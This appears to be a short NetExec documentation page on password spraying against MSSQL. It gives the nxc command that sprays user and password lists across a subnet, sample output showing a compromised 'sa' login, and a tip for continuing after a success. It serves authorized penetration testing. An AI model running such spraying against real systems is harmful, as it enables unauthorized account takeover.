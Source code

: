 # Password spraying

#### Password spraying (without bruteforce)

```bash
nxc mssql $TARGET/24 -u $USERFILE -p $PASSFILE --no-bruteforce
```

Expected Results:

```bash
MSSQL       10.10.10.59     1433   None             [-] ERROR(TALLY): Line 1: Login failed for user 'test1'.
MSSQL       10.10.10.59     1433   None             [+] sa:password (Pwn3d!)
```

{% hint style="info" %}
By default, nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
{% endhint %}
